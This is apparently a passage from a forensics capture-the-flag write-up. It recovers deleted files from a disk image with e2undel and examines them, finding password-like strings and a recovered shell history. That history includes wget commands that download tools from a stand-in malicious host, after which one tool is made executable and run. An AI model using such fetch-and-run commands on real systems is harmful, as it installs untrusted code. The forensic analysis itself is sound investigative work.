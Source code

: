 Check for deleted files.

```bash
sudo e2undel -d /dev/loop0 -s /images/recovered -a -t
```

Here's the output:

```
searching for deleted inodes on /dev/loop0:
|==================================================|
731752 inodes scanned, 2846 deleted files found

   user name | 1 <12 h | 2 <48 h | 3  <7 d | 4 <30 d | 5  <1 y | 6 older
-------------+---------+---------+---------+---------+---------+--------
        root |       0 |       0 |       0 |       0 |       0 |    2841
        1001 |       0 |       0 |       0 |       0 |       0 |       5
```

Only the files of user `1001` were able to be recovered.

- inode-368000-ASCII_text
- inode-368001-ASCII_text
- inode-368002-ASCII_text
- inode-368003-ASCII_text
- inode-703144-application_core

Let's see what we can find from those deleted files.

```bash
cat inode-368000-ASCII_text | less
cat inode-368001-ASCII_text | less
cat inode-368002-ASCII_text | less
cat inode-368003-ASCII_text | less
cat inode-703144-application_core | less
```

`inode-368000-ASCII_text`, `inode-368001-ASCII_text`, and `inode-368002-ASCII_text` contained something potentially meaningful.

- 7 17jonquil23scent14
- 8 26daisy99daisy99
- 6 13tulip34root28

`inode-368003-ASCII_text` looks like `.bash_history` file.

```
ls -alh
mkdir .mozilla
mkdir .thunderbird
mkdir .games
cd swiss_keys/
ls
for i in *; do vi $i; done
whoami
wget
wget http://eeeevilcode.com/extortomatic-hidekey
wget http://eeeevilcode.com/extortomatic-keyhider
cd /home/rich
wget http://eeeevilcode.com/extortomatic-keyhider
ls
chmod u+x extortomatic-keyhider
vi extortomatic-keyhider
./extortomatic-keyhider
ls
cd swiss_keys/
ls
gpg --symmetric swisskey1
cd ..
ls
```